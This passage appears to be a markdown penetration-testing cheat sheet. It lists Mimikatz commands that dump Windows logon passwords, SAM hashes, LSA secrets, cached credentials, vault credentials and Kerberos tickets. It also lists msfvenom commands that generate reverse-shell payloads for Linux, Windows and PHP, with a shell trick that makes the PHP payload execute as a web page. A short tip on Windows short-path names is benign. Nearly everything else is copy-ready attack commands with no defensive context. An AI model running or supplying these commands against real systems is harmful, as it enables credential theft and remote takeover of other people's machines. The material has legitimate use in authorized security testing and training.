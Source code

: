 ```
sekurlsa::logonpasswords
sekurlsa::tickets /export

kerberos::list /export

vault::cred
vault::list

lsadump::sam
lsadump::secrets
lsadump::cache
```

---

## MISCELLANEOUS

### Get a Windows path without spaces

```
# path.cmd
@echo off
echo %~s1

path.cmd "C:\Program Files (x86)\Common Files\test.txt"
C:\PROGRA~2\COMMON~1\test.txt -> Valid path without spaces
```

---

## MSFVENOM PAYLOAD

### Linux

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

### Windows

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

### PHP

```
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php

Then we need to add the <?php at the first line of the file so that it will execute as a PHP webpage
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
